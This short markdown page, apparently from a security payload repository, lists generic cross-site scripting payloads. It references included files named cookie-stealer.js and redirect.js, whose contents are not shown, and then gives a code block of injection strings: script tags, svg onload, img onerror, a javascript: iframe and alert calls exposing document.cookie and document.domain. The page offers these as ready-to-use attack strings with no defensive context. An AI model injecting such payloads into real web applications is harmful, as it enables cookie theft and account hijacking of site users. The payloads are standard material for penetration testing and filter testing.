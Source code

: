 # Generic xss payloads.

### Maybe useful payloads:

@include[cookie-stealer.js](useful/cookie-stealer.js)


@include[redirect.js](useful/redirect.js)

@include[include.js](useful/include.js)

### Other:

```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

